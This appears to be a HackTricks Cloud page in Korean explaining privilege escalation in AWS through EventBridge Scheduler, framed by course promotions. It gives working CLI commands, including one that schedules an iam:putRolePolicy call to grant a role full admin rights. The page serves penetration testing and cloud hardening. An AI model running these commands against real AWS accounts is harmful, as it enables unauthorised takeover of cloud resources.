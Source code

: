 # AWS - EventBridge Scheduler Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## EventBridge Scheduler

EventBridge Scheduler는 다양한 AWS 서비스에 대한 호출을 예약하여 권한 상승에 사용할 수 있습니다. 예약된 방식으로 서비스를 호출할 수 있는 기능을 활용하여 충분한 권한을 가진 사용자는 권한을 상승시킬 수 있습니다. EventBridge Scheduler가 템플릿 대상 사용하여 트리거할 수 있는 주요 작업은 다음과 같습니다:

* Lambda: lambda:InvokeFunction - 예약된 Lambda 함수를 호출합니다.
* CodeBuild: codebuild:StartBuild - AWS CodeBuild 프로젝트를 시작합니다.
* CodePipeline: codepipeline:StartPipelineExecution - AWS CodePipeline 실행을 트리거합니다.
* ECS: ecs:RunTask - ECS 작업을 실행합니다.
* EventBridge: events:PutEvents - EventBridge에 이벤트를 넣습니다.
* Inspector: inspector:StartAssessmentRun - Amazon Inspector 평가를 시작합니다.
* Kinesis: kinesis:PutRecord - Kinesis 스트림에 레코드를 넣습니다.
* Firehose: firehose:PutRecord - Firehose 배달 스트림에 레코드를 넣습니다.
* SageMaker: sagemaker:StartPipelineExecution - SageMaker 파이프라인 실행을 시작합니다.
* SNS: sns:Publish - SNS 주제에 메시지를 게시합니다.
* SQS: sqs:SendMessage - SQS 큐에 메시지를 보냅니다.
* Step Functions: states:StartExecution - AWS Step Functions의 실행을 시작합니다.

이들은 EventBridge Scheduler가 수행할 수 있는 템플릿 작업 중 일부에 불과합니다. 그러나 범용 대상을 사용하면 AWS 서비스 전반에 걸쳐 많은 다른 작업을 호출할 수 있습니다. 범용 대상은 템플릿 목록을 넘어 더 광범위한 API 작업을 허용합니다.

EventBridge Scheduler에 대한 더 많은 정보는 다음에서 확인할 수 있습니다:

{% content-ref url="../aws-services/eventbridgescheduler-enum.md" %}
[eventbridgescheduler-enum.md](../aws-services/eventbridgescheduler-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, (`scheduler:CreateSchedule` | `scheduler:UpdateSchedule`)

`sts:AssumeRole`, `iam:PassRole`, 및 `scheduler:CreateSchedule or scheduler:UpdateSchedule` 권한을 가진 사용자는 EventBridge Scheduler를 활용하여 더 높은 권한을 가진 역할을 사용하여 서비스를 호출함으로써 권한을 상승시킬 수 있습니다.

이러한 권한을 통해 공격자는 권한이 상승된 역할을 가정하고, 일정을 생성하거나 업데이트할 때 그 역할을 EventBridge Scheduler에 전달할 수 있습니다. 일정은 이전에 나열된 작업 중 어떤 것이든 수행하도록 구성할 수 있으며, Lambda 함수를 호출하거나, ECS 작업을 시작하거나, CodePipeline 실행을 트리거하거나, EventBridge Scheduler에서 지원하는 270개의 AWS 서비스의 어떤 작업이든 수행할 수 있습니다. 이러한 작업을 예약함으로써 공격자는 더 높은 권한을 남용하여 AWS 서비스 전반에 걸쳐 무단 작업을 수행할 수 있습니다. \\

예를 들어, 그들은 일정을 구성하여 템플릿 작업인 Lambda 함수를 호출할 수 있습니다:
```bash
aws scheduler create-schedule \
--name MyLambdaSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:lambda:<region>:<account-id>:function:<LambdaFunctionName>",
"RoleArn": "arn:aws:iam::<account-id>:role/<RoleName>"
}'
```
EventBridge Scheduler에서 템플릿 서비스 작업 외에도 다양한 AWS 서비스에 대한 광범위한 API 작업을 호출하기 위해 유니버설 대상을 사용할 수 있습니다. 유니버설 대상은 거의 모든 API를 호출할 수 있는 유연성을 제공합니다. 한 가지 예는 "putRolePolicy" 정책이 있는 역할을 사용하여 "AdminAccessPolicy"를 추가하는 유니버설 대상을 사용하는 것입니다:
```bash
aws scheduler create-schedule \
--name GrantAdminToTargetRoleSchedule \
--schedule-expression "rate(5 minutes)" \
--flexible-time-window "Mode=OFF" \
--target '{
"Arn": "arn:aws:scheduler:::aws-sdk:iam:putRolePolicy",
"RoleArn": "arn:aws:iam::<account-id>:role/RoleWithPutPolicy",
"Input": "{\"RoleName\": \"TargetRole\", \"PolicyName\": \"AdminAccessPolicy\", \"PolicyDocument\": \"{\\\"Version\\\": \\\"2012-10-17\\\", \\\"Statement\\\": [{\\\"Effect\\\": \\\"Allow\\\", \\\"Action\\\": \\\"*\\\", \\\"Resource\\\": \\\"*\\\"}]}\"}"
}'
```
## References

* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-templated.html)
* [https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html](https://docs.aws.amazon.com/scheduler/latest/UserGuide/managing-targets-universal.html)

{% hint style="success" %}
AWS 해킹 배우기 및 연습하기:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP 해킹 배우기 및 연습하기: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 리포지토리에 PR을 제출하여 해킹 팁을 공유하세요.**

</details>
{% endhint %}
